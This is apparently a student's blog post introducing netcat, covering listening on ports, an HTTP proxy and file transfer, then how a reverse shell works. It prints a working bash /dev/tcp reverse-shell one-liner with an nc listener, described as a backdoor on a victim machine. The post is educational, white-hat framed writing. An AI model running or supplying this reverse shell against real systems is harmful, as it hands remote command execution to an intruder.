 ```yaml
---
layout: post
title:  "Netcat: Woah"
date:   2017-02-24 09:43:21 -0500
---
```



File this one under semi-relevant but super neat. My first exposure to netcat was through an offhand comment made by our instructor Steven, in which he said it was pretty crazy. If i’ve learned anything about Steven, with his background in network security, it’s to pay attention to the things he mentions as cool, because they probably are. This was no exception. In this blog post, I’ll cover some of the basics of netcat, as well as some neat tricks you can do with it. 

	Type “man nc” into your terminal and even the first couple of lines are intriguing. Not even the first couple of lines in your iPhone’s manual were intriguing, so this is already a good start:
	
	“nc -- arbitrary TCP  and UDP connections and listens… the nc (or netcat) utility is used for just about anything under the sun involving TCP or UDP.”

	Having learned all about how the internet works earlier this week we, we were exposed to TCP and UDP as part of the transport layer in the internet protocol suite. Simply put, these protocols allow for the transference of data via hosts communicating by an IP network. As such, netcat was originally conceived as a network utility for reading and writing to network connections, a general-purpose networking tool. 

Some basic applications of nc include:

* Checking if ports on the network are open
        * To listen for connections on TCP port 8080. : nc -l 8080
* Creating an HTTP proxy server:
        *  To create a proxy server on localhost port 8888. : nc -l --proxy-type http localhost 8888
* Encrypted file transfer: 
        * When you SSH in, add -L 31000:127.0.0.1:31000
        * On the remote: nc -lvnp 31000 127.0.0.1 > file
        * On the local: nc -v -w 2 127.0.0.1 31000 < file

	Clearly this is an extremely versatile and useful tool for diagnosing problems on a network. However beyond that, nc is also a favorite tool of hackers, known to some as  “the swiss army knife of hacking tools”. From the examples above, even successfully sending an encrypted file has obvious hacking applications. However, in order for the file to be opened on the remote, someone needs to be on the receiving end typing in the command. Or do they? 

<iframe src="//giphy.com/embed/1107IdxsMU7I6k" width="480" height="269" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="http://giphy.com/gifs/rick-and-morty-1107IdxsMU7I6k">via GIPHY</a></p>
	

	One tricky thing that nc can be used to do is to create a reverse shell to remotely execute commands over any open port using netcat or BASH. A reverse shell is a type of shell in which another ‘attacking’ machine can execute commands. You can create one with a single line of code :
	bash -i >& /dev/tcp/youripaddress/1337 0>&1
	
Next, we create a backdoor with our trusty friend netcat: nc -l 1337    

And voila, we’re done(more or less). You can use this to make the victim computer do funny things like speaking out loud: “say [thing]”, and beyond that more malicious applications are pretty apparent. 

So, being a student of code and its legal applications, why would I want to learn such a thing? Online, there’s a type of hacker called a “white hat,” someone who uses hacker’s tools for educational and non-malicious purposes. If I am to contribute to helping preserve and develop online infrastructure, a deep understanding of all of the tools at our disposal is crucial, regardless of how fun they are.




Sources: 
https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf  
https://en.wikipedia.org/wiki/Netcat (yes I’m listing Wikipedia as a source, just bein’ honest!) 
http://www.thegeekstuff.com/2012/04/nc-command-examples/?utm_source=feedburner
https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

